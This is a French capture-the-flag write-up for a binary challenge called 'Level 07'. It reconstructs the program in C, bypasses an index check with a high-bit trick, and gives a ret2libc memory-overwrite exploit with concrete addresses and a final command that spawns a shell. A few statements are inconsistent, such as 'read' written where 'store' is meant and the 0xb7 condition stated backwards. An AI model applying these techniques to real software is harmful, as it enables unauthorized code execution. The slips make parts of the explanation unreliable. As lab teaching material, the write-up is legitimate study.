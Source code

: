 # Level 07

## Analyse du binaire

Lorsqu'on exécute le binaire, une "commande" est attendue sur l'entrée standard. On a le choix entre :

- **read** : lit un nombre à un index voulu
- **store** : stocke un nombre voulu à un index voulu
- **quit** : quitte le programme

Le code asm est assez long, on retrouve notamment les instructions :

- Initialisation de tableau :

```asm
rep stos DWORD PTR es:[edi],eax
```

- Calcul de la longueur d'une chaîne de caractère :

```asm
repnz scas al,BYTE PTR es:[edi]
```

- Comparaison entre deux chaînes de caractères :

```asm
repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
```

- Division d'un nombre par 3, en faisant une multiplication par `2^33 / 3 = 0xaaaaaaab` (voir sources) :

```asm
mov    DWORD PTR [ebp-0xc],eax
mov    ecx,DWORD PTR [ebp-0xc]
mov    edx,0xaaaaaaab
mov    eax,ecx
mul    edx
shr    edx,1
```

On peut réécrire un code source en C :

```c
void clear_stdin(void)
{
	int c; // ebp-0x9

	c = 0;
	while (c != 0xff)
	{
		c = getchar();
		if (c == '\n')
			return;
	}
}

int get_unum(void)
{
	uint nb; // ebp-0xc

	nb = 0;
	fflush(stdout);
	scanf("%u", &nb);
	clear_stdin();
	return nb;
}

int read_number(char *data)
{
	uint index; // ebp-0xc

	printf(" Index: ");
	index = get_unum();
	printf(" Number at data[%u] is %u\n", index, data[index << 2]);
	return 0;
}

int store_number(char *data)
{
	uint nb;	// ebp-0x10
	uint index; // ebp-0xc

	nb = 0;
	index = 0;
	printf(" Number: ");
	nb = get_unum();
	printf(" Index: ");
	index = get_unum();

	uint tmp = index / 3;
	tmp *= 3;

	if (index - tmp == 0 || nb >> 24 != 0xb7)
	{
		puts(" *** ERROR! ***");
		puts("   This index is reserved for wil!");
		puts(" *** ERROR! ***");
		return 1;
	}
	data[index << 2] = nb; // same as ((uint32*)data)[index]
	return 0;
}

int main(int argc, const char **argv, char **envp)
{
	char command[20];		 // esp+0x1b8 - esp+0x1c8
	uint has_command_failed; // esp+0x1b4
	char *data[400];		 // esp+0x24
	char **av;				 // esp+0x1c
	char **env;				 // esp+0x18

	av = argv;
	env = envp;
	has_command_failed = 0;
	bzero(command, 20);
	bzero(data, 400);

	while (av[0] != NULL)
	{
		memset(av[0], 0, strlen(av[0]));
		av += 4;
	}

	while (env[0] != NULL)
	{
		memset(env[0], 0, strlen(env[0]));
		env += 4;
	}

	puts("----------------------------------------------------");
	puts("   Welcome to wil's crappy number storage service!  ");
	puts("----------------------------------------------------");
	puts("Commands:");
	puts("    store - store a number into the data storage");
	puts("    read  - read a number from the data storage");
	puts("    quit  - exit the program");
	puts("----------------------------------------------------");
	puts("   wil has reserved some storage :");
	puts("----------------------------------------------------");

	while (1)
	{
		printf("Input command: ");
		has_command_failed = 1;
		fgets(command[1], 20, stdin);

		command[strlen(command) - 1] = '\0';

		if (!strncmp(command, "store", 5))
			has_command_failed = store_number(data);
		else if (!strncmp(command, "read", 4))
			has_command_failed = read_number(data);
		else if (!strncmp(command, "quit", 4))
			return 0;

		if (has_command_failed)
			printf(" Failed to do %s command\n", command);
		else
			printf(" Completed %s command successfully\n", command);

		bzero(command, 20);
	}
}
```

## Exploit

On se doute qu'il faut utiliser la commande **read** pour écraser des valeurs intéressantes de la mémoire. En regardant le code de la fonction _store_number_, on remarque que notre index subit un décalage binaire à gauche de 2, soit une multiplication par 4. Le nombre que nous allons donné à la commande read sera donc stocké à l'adresse `DATA_ADDR + INDEX * 4`.

Cependant, on note aussi que l'index ne doit pas être un multiple de 3 et que le 1er octet du nombre que ne voulons stocké doit être différent de `0xb7`.

On peut essayer de faire un **ret2libc** pour lancer un shell. Pour ce faire, il nous faut l'adresse de la fonction _system_ et une adresse pointant sur la chaîne de caractères "/bin/sh". De plus on a besoin de l'adresse de notre buffer et l'**eip sauvegardé** de la fonction **main** à écraser. Comme vu au level04, avec gdb on obtient les adresses suivantes :

- system `0xf7e6aed0` (hex) = `4159090384` (dec)
- "/bin/sh" `0xf7f897ec` (hex) = `4160264172` (dec)
- eip `0xffffd60c`
- buffer `0xffffd444`

On doit donc :

- stocker l'adresse de la fonction _system_ à l'**eip sauvegardé**
- stocker l'adresse de la chaîne de caractères "/bin/sh" à **eip sauvegardé + 4**
- quitter le programme pour sortir de la fonction _main_ et exécuter la fonction système

On commence par faire la différence entre l'adresse de notre buffer et l'**eip sauvegardé** : `0xffffd60c - 0xffffd444 = 1C8 (hex) = 456 (dec)`. On doit donc diviser ce nombre par 4, ce qui nous donne 114. Problème : cet index est un multiple de 3 et la condition n'est donc pas respectée dans la fonction _store_number_. Sachant que la condition sur la division par 3 est fait **avant** le décalage binaire, on peut modifier les 2 premiers bits de notre index, puisque lors du décalage ces derniers vont "disparaître". On peut donc par exemple modifier le 1er bit à 1 ce qui nous donne :

```
0000 0000 0000 0000 0000 0000 0111 0010 (bin) =       72 (hex) =        114 (dec)
1000 0000 0000 0000 0000 0000 0111 0010 (bin) = 80000072 (hex) = 2147483762 (dec)
```

Le nombre 214748376 n'est pas un multiple de 3 : `2147483762 = 3 * 715827920 + 2`.

Pour l'index suivant qui est 116, cela ne pose pas de problème car il n'est pas un multiple de 3.

Finalement on exécute la commande :

```bash
(echo "store" ; echo "4159090384" ; echo "2147483762" ; echo "store"; echo "4160264172" ; echo "116" ; echo "quit"; cat) | ./level07
```

## Sources

- https://stackoverflow.com/questions/63417818/why-does-division-by-3-require-a-rightshift-and-other-oddities-on-x86
- https://aakinshin.net/posts/perfex-div/
